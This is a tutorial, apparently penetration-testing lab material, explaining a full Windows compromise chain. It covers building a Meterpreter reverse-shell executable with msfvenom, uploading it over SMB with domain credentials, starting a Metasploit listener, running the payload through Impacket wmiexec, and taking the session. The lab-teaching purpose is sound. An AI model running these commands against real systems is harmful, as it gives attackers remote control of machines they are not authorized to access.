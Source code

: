 # `msfvenom` Activity

Let's break down each step of the provided instructions to understand what is happening during this exploitation and payload deployment process using tools like `msfvenom`, `smbclient`, and `Metasploit`. This sequence of actions is a typical example of how to generate, transfer, and execute a reverse shell payload on a target Windows machine within a penetration testing context.

### Step 1: Generate a Payload
- **Command**: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`
- **Explanation**:
  - `msfvenom` is used to generate custom payloads. 
  - `-p windows/meterpreter/reverse_tcp` specifies using a Windows Meterpreter payload with a reverse TCP connection.
  - `LHOST=172.22.117.100` sets the IP address where the Meterpreter shell should connect back to (the attacker's machine).
  - `LPORT=4444` sets the port on which the attacker's machine is listening.
  - `-f exe` specifies the format of the payload file, which in this case is a Windows executable.
  - `> shell.exe` redirects the output (the executable file) to `shell.exe`.

### Step 2: Connect to the Target Machine Using SMB
- **Command**: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`
- **Explanation**:
  - `smbclient` is a command-line tool that allows browsing and file transfer over SMB (Server Message Block) protocol.
  - `//172.22.117.20/C$` specifies the SMB path to the target's C drive.
  - `-U megacorpone/tstark` specifies the domain (megacorpone) and username (tstark) used for authentication.

### Step 3: Authenticate and Interact with the File System
- **Command**: `ls`, `put shell.exe`
- **Explanation**:
  - `ls` lists the files in the current directory of the remote SMB share.
  - `put shell.exe` uploads the previously created payload (`shell.exe`) to the remote machine.

### Step 4: Set Up the Listener in Metasploit
- **Commands**: 
  - `use exploit/multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
  - `set LHOST [IP ADDRESS]`
  - `set LPORT 4444`
  - `exploit -j`
- **Explanation**:
  - `use exploit/multi/handler` selects a generic handler in Metasploit for payloads.
  - `set payload` configures the handler to use the same type of payload as was generated.
  - `set LHOST` and `set LPORT` configure the IP and port to match those specified when the payload was created.
  - `exploit -j` runs the handler in the background, allowing Metasploit to listen for incoming connections from the payload without blocking further commands.

### Step 5: Execute the Payload Remotely Using WMI
- **Commands**:
  - `use scanner/smb/impacket/wmiexec`
  - `set COMMAND C:\shell.exe`
  - `run`
- **Explanation**:
  - `use scanner/smb/impacket/wmiexec` uses the WMI Execution command from the Impacket suite, facilitating command execution via WMI (Windows Management Instrumentation).
  - `set COMMAND C:\shell.exe` sets the command to execute the payload on the target machine.
  - `run` executes the payload, which should connect back to the listening Metasploit session.

### Step 6: Interact with the Meterpreter Session
- **Commands**: 
  - `sessions -i [session ID]`
- **Explanation**:
  - `sessions` lists all active Meterpreter sessions.
  - `-i [session ID]` interacts with a specified session based on its ID.

